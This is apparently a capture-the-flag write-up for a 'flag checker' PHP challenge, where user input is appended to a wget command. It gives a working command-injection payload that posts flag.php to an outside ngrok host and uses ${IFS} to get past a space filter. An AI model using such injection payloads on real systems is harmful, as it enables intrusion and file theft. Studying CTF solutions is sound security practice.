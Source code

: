 # flag checker

## solution:

ok so we have this **web.php** here let's analyse it step by step:

* first it takes a value from **?flag** param in the URL and send it to **checkFlag** function

* check flag will prepare an **example_flag** then loop through our input and see if one of it's characters is not included in example_flag . if everything is fine , valid will be true and we can jump getFlag function. else we get **That is not a correct flag!**

* get flag will take our input and append it to ```wget -q -O - https://kuhi.to/flag/``` as cmd variable . it will execute the cmd and  store output in the array if the array is empty we get a Nope else we get a Maybe. 

## vulnerability:

notice that the script is executing a command and part of that command is our input . this must be a command injection but how ?

## exploit:

* first we complete the wget command by adding the parameter --post-file flag.php this will leak the content of flag.php

* create an ngrok link to get the content of the request 

* input will become: ?flag=744441c5e3a9.ngrok.io --post-file flag.php

* this won't pass the first check because there is no spaces in the example flag  

* replace spaces with **${IFS}** input become: ?flag=${IFS}744441c5e3a9.ngrok.io${IFS}--post-file${IFS}flag.php